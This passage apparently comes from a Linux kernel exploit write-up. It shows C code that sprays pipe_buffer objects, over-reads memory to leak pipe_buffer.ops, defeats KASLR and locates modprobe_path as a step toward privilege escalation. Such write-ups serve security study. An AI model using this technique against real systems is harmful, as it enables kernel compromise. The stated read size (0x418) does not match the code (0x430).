 ![Heap layout after spraying `with pipe_buffer` objects.](img/heap_layout.png)

We now have to read 0x418 bytes to leak `pipe_buffer.ops` and break KASLR.

```c
// read A and leak pipe_buffer.ops
memset(buf, 0, BUF_SIZE);
n = read(fd, buf, 0x400 + 0x30);
if (-1 == n) {
    err("read");
}
//hex_view(buf, n);

leak = *(unsigned long long *)(buf + 0x400 + 0x10);
kbase = leak - (0xffffffffa8210840 - 0xffffffffa7a00000);
modprobe_path = kbase + (0xffffffff89251a00 - 0xffffffff88800000);

printf("[+] pipe_buffer.ops = %p\n", leak);
printf("[+] kbase = %p\n", kbase);
printf("[+] modprobe_path @ %p\n", modprobe_path);
```